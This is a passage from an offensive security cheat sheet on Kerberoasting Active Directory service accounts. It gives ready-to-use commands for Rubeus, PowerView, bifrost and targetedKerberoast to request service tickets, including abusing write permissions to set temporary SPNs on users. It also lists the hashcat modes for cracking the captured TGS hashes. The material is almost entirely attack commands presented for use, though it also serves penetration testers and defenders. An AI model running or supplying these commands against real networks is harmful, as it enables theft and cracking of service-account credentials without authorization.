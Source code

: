     # Kerberoast (AES ticket)
    # Accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested.
    Rubeus.exe kerberoast /tgtdeleg
    
    # Kerberoast (RC4 ticket)
    # The tgtdeleg trick is used, and accounts without AES enabled are enumerated and roasted.
    Rubeus.exe kerberoast /rc4opsec
    ```
    
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
    
    ```powershell
    Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
    ```
    
- [bifrost](https://github.com/its-a-feature/bifrost) on **macOS** machine
    
    ```powershell
    ./bifrost -action asktgs -ticket doIF<...snip...>QUw= -service host/dc1-lab.lab.local -kerberoast true
    ```
    
- [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
    
    ```powershell
    # for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute), 
    # print the "kerberoast" hash, and delete the temporary SPN set for that operation
    targetedKerberoast.py [-h] [-v] [-q] [-D TARGET_DOMAIN] [-U USERS_FILE] [--request-user username] [-o OUTPUT_FILE] [--use-ldaps] [--only-abuse] [--no-abuse] [--dc-ip ip address] [-d DOMAIN] [-u USER] [-k] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key]
    ```
    

Then crack the ticket using the correct hashcat mode (`$krb5tgs$23`= `etype 23`)

| Mode | Description |
| --- | --- |
| `13100` | Kerberos 5 TGS-REP etype 23 (RC4) |
| `19600` | Kerberos 5 TGS-REP etype 17 (AES128-CTS-HMAC-SHA1-96) |
| `19700` | Kerberos 5 TGS-REP etype 18 (AES256-CTS-HMAC-SHA1-96) |
